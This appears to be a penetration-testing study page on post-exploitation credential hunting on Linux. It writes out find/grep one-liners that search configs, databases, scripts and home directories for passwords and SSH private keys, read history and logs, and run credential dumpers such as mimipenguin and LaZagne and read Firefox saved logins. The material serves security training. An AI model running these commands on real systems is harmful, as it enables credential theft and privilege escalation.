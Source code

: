 We can search for passwords or even whole credentials that we can use escalate our privileges. There are several sources that can provide us with credentials that we put in four categories. These include, but are not limited to:

|**`Files`**|**`History`**|**`Memory`**|**`Key-Rings`**|
|---|---|---|---|
|Configs|Logs|Cache|Browser stored credentials|
|Databases|Command-line History|In-memory Processing||
|Notes||||
|Scripts||||
|Source codes||||
|Cronjobs||||
|SSH Keys||
### Files
##### Configuration Files
Searching for configuration files (`.conf`,`.config`,`.cnf`)
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
Search for credentials in file type (configuration files)
```bash
for i in $(find / -name *.config 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" --color=auto $i 2>/dev/null | grep -v "\#";done
```
##### Databases
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

```bash
for i in $(find / -name *.db 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" --color=auto $i 2>/dev/null | grep -v "\#";done
```
##### Notes
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
##### Scripts
```shell
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
##### Cronjobs
```bash
cat /etc/crontab 
ls -la /etc/cron.*/
```
##### SSH Keys
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Logs
##### History
```bash
tail -n5 /home/*/.bash*
```

The entirety of log files can be divided into four categories:

| **Application Logs** | **Event Logs** | **Service Logs** | **System Logs** |
| -------------------- | -------------- | ---------------- | --------------- |
Many different logs exist on the system. These can vary depending on the applications installed, but here are some of the most important ones:

|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|
Analysis in logs
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
### Memory and Cache
Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused.
#### Mimipenguin
In order to retrieve this type of information from Linux distributions, there is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that makes the whole process easier. However, this tool requires administrator/root permissions.
```bash
sudo python3 mimipenguin.py
sudo python3 mimipenguin.sh'
```
#### Lazagne
```bash
sudo python2.7 laZagne.py all
```
#### Browsers
Firefox stored credentials
```shell
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
[Firefox Decrypt](https://github.com/unode/firefox_decrypt) can be used for decrypting these credentials
